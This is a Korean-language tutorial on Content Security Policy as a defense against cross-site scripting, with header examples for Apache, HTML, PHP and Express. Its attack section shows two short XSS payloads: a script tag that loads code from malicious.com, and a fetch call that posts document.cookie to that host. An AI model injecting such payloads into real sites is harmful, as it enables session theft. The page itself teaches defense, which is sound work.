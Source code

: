 ## 📌 **Content Security Policy (CSP)**

### 개요

\*\*Content Security Policy (CSP)\*\*는 웹 애플리케이션에서 **크로스 사이트 스크립팅(XSS)** 및 **데이터 삽입 공격**을 방어하기 위한 **보안 메커니즘**입니다. CSP는 **브라우저**가 **허용된 리소스**만 로드하도록 지시하는 정책을 설정하여, **악성 코드**나 **스크립트**가 외부 출처에서 실행되는 것을 방지합니다.

### 공격 방식

웹 애플리케이션에 **CSP**가 없거나 적절하게 설정되지 않으면, 악성 사용자가 **XSS 공격**을 통해 **스크립트**를 삽입하거나 **외부 자원을** 로드할 수 있습니다. 공격자는 이를 통해 세션 하이재킹, 데이터 탈취, 서버 제어 등 다양한 공격을 수행할 수 있습니다.

#### 예시 공격

1. 악성 사용자가 댓글을 작성하거나, **폼 입력 필드**에 **JavaScript 코드**를 삽입할 수 있습니다.

   ```html
   <script src="http://malicious.com/malicious.js"></script>
   ```

   이 코드가 **허용된 웹 페이지에 삽입되면**, 외부 스크립트가 실행됩니다.

2. **XSS 공격**을 통해 사용자의 **세션 쿠키**를 탈취할 수도 있습니다.

   ```javascript
   <script>
       fetch('http://malicious.com/steal-cookies', {
           method: 'POST',
           body: document.cookie
       });
   </script>
   ```

### 🛡️ 방어법

#### 1. **CSP 적용**

* **CSP 헤더**를 사용하여 **허용된 출처**에서만 자원을 로드할 수 있게 제한합니다. 이를 통해 **외부 악성 스크립트**의 실행을 방지할 수 있습니다.

#### 예시: 기본적인 CSP 헤더

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com; img-src 'self';
```

이 정책은 다음을 의미합니다:

* **default-src 'self'**: 기본적으로 모든 리소스는 **현재 도메인**에서만 로드 가능합니다.
* **script-src 'self' [https://trusted.com](https://trusted.com)**: 스크립트는 **현재 도메인**과 \*\*[https://trusted.com\*\*에서만](https://trusted.com**에서만) 로드 가능합니다.
* **img-src 'self'**: 이미지는 **현재 도메인**에서만 로드 가능합니다.

#### 2. **인라인 스크립트 차단**

* CSP를 통해 **인라인 자바스크립트**(`<script>`)의 실행을 차단할 수 있습니다. 이렇게 하면 **XSS 공격**이 포함된 인라인 스크립트가 실행되지 않게 됩니다.

```http
Content-Security-Policy: script-src 'self' 'nonce-randomvalue';
```

* **nonce**는 실행되는 스크립트에 대한 **임시 허가 값**입니다. 이를 사용하면 특정 스크립트만 실행할 수 있습니다.

#### 3. **서버에서 CSP 헤더 설정**

웹 서버에서 **CSP** 헤더를 설정하여 **응답 헤더에 포함**시킬 수 있습니다. 예를 들어, **Apache** 서버에서는 `.htaccess` 파일을 수정하여 CSP를 설정할 수 있습니다.

**Apache 예시**:

```apache
Header set Content-Security-Policy "default-src 'self'; script-src 'self' https://trusted.com;"
```

#### 4. **`report-uri` 또는 `report-to` 사용**

CSP 위반 사항을 추적하고, 위반 시 서버에 보고할 수 있습니다. 이를 통해 **CSP 위반**을 실시간으로 감지하고, 보안 문제를 모니터링할 수 있습니다.

예시:

```http
Content-Security-Policy: default-src 'self'; report-uri /csp-violation-report-endpoint;
```

이 경우, 위반이 발생하면 `/csp-violation-report-endpoint`에 관련 정보를 전송하게 됩니다.

#### 5. **스크립트, 스타일, 이미지 및 리소스의 특정 출처만 허용**

* CSP를 사용하여 **스크립트**, **스타일**, **이미지** 등 각 리소스 유형에 대해 세부적으로 **출처를 제한**할 수 있습니다.
* **스크립트**는 **자바스크립트 파일**의 **출처**를, **이미지**는 **이미지 URL**의 **출처**를 제한할 수 있습니다.

예시:

```http
Content-Security-Policy: script-src 'self' https://trusted.com; img-src 'self' https://images.example.com;
```

### 적용 예시

#### **HTML 페이지의 헤더에 CSP 설정**

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted.com; img-src 'self';">
</head>
```

#### **PHP에서 CSP 헤더 설정**

```php
header("Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com;");
```

#### **Node.js (Express)에서 CSP 헤더 설정**

```javascript
app.use(function(req, res, next) {
  res.setHeader("Content-Security-Policy", "default-src 'self'; script-src 'self' https://trusted.com;");
  next();
});
```

---

### **결론**

* \*\*CSP(Content Security Policy)\*\*는 웹 애플리케이션의 **보안을 강화**하고, \*\*크로스 사이트 스크립팅(XSS)\*\*과 **데이터 삽입 공격**을 방어하는 중요한 **보안 기능**입니다.
* **CSP 헤더**를 통해 **허용된 출처**에서만 자원을 로드하게 하여 **악성 스크립트**의 실행을 방지합니다.
* **CSP 설정**은 다양한 방법으로 적용할 수 있으며, **정확한 리소스 출처**를 지정하고, **인라인 스크립트 실행**을 제한하는 방식으로 효과적인 방어가 가능합니다.
